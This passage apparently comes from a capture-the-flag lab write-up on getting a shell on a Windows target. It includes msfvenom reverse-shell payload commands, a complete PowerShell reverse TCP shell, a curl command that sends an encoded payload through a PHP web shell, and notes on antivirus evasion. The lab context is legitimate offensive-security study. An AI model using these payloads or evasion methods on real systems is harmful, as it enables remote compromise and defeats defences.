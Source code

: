 ```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -a x86 -f vba-exe -e x86/shikata_ga_nai -i 50 -o bubba.vbs
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -a x86 -f vbs -e x86/shikata_ga_nai -i 50 -o bubba.vbs
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -a x86 -f psh -e x86/shikata_ga_nai -i 50 -o bubba.ps1
```

Maybe try a basic PowerShell reverse TCP shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.17',6969); 
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String);
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush();
} 
$client.Close();
```

Base64 (UTF-16LE for Windows) encode and run:

```bash
# above PowerShell saved in bubba.ps1
b64_powershell = $(python3 -c "import base64;print(base64.b64encode(open('bubba.ps1').read().encode('UTF-16LE')).decode())")
# start listener
nc -nvlp 6969
# send command 
curl -s -G http://10.10.10.198:8080/upload/bubba.php --data-urlencode "c=powershell.exe -Enc $b64_powershell"
```

But this also does not work (it works for simple commands but no reverse shell or file downloading... )? Time to get serious...

AV evasion usually comes down to 2 phases to bypass:

1. Static signature detection
2. Runtime in-memory detection
3. Behavior detection (this is hard to beat easily)

Bypassing step 1 is usually done with encoding/encryption. The original `shellter` payload was likely caught because of this since the standard `msfvenom` payload was used without any encryption or unique encoding (`shikata_ga_nai` alone is not enough). Getting around this step can be done by using basic encryption like RC4 and adding in an encoding like Base64 or XOR. However, this alone will not stop runtime detection. Modern AVs will hook certain suspicious system functions. When malware calls these functions, AV swoops in and does an in-memory signature detection. So all the encryption/encoding from step 1 is gone/performed and AV will flag the malware.
